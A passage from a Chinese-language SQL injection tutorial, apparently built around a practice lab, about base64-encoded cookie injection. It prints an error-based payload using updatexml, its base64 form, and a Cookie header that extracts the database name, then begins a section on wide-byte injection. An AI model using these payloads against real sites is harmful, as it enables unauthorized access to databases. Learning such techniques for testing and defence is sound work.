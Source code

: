 例如：

编码前：admin') and updatexml(1,0x7e,3)#

解码后：YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsMHg3ZSwzKSM=

![img](assets/zN3PLMivQ1GOVDm.jpg) 

#### 3.5.5.4.**确认数据库名**

Cookie: uname=YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSksMykj

 

![img](assets/UzeZVdEaQDuRlLS.jpg) 

后续步骤和普通的cookie的测试流程一样，当然是需要编码的，不编码就无法解析。

 

## 3.6.**6.宽字节注入**

### 3.6.1.**宽字节注入基本概念**
